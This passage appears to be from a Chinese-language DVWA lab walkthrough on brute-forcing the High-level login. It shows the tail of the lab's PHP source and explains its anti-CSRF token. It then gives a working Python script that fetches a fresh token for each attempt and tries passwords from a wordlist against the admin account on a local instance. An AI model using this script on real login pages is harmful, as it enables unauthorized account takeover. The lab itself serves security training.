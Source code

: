 ```php
    }
    else {
        // Login failed
        sleep( rand( 0, 3 ) );
        echo "<pre><br />Username and/or password incorrect.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();
```
比Medium又多几个知识点：

- Anti-CSRF Token ：即源码中的user_token，是用来抵御CSRF攻击的。每次访问token值是不一样的，所以在爆破的时候要每次都获得新的token。
- stripslashes()：去除字符串的反斜杠\

#### 解题思路
同Medium级别。

输入账号admin，密码随意。设置Burpsuite代理拦截，然后点击提交。

编写脚本如下：

```python
import requests
import re

header = {
    "Host": "127.0.0.1:9000",
    "User-Agent": "Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0",
    "Accept": "text/css,*/*;q=0.1",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "Connection": "close",
    "Cookie": "security=high; PHPSESSID=7d41j3jo4n2qhoo75kpe0ebao6"
}
url = "http://127.0.0.1:9000/dvwa/vulnerabilities/brute/"

# 打开密码，每行都是一个密码
with open("常用密码.txt", "r") as f:
    lines = f.readlines()

count = 1
for line in lines:
    # 获取token
    response = requests.get(url, headers=header)
    token = re.findall(r"name='user_token' value='(.*?)' />", response.text, re.S)[0]
    # 测试密码
    requrl = url + "?username=admin&password=" + line.strip() + "&Login=Login&user_token=" + token
    response = requests.get(requrl, headers=header)
    print(str(count), "admin", line.strip(), response.status_code, len(response.content))
    if "Welcome to the" in response.text:
        print("密码是：", line)
        break
    count += 1
```
